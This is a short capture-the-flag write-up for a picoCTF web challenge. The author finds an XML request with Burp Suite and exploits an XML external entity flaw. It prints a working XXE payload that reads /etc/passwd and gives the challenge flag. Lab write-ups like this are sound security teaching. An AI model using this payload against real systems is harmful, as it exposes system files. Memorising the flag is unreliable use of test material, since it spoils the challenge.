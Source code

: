 # SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.

# Hints
1. XML external entity Injection

# What I Did

From the hints it told us that this is
a XXE injection, so I use burpsuite to
see any data request.

Then I see the xml in the http request (Pic_3)
so I open https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
and https://www.youtube.com/watch?v=gjm6VHZa_8s
to see figure how xml and xxe work
and I get this result that I can use

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ID [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<data><ID>&xxe;</ID></data>
```

so the website is basically works by printing
anything inside the <ID></ID> even
if the value is not valid it prints the value (Pic_4 & Pic_5).
So what I need to do is just change the xml
with our xml and I get the flag

the flag is 

``` picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e} ```

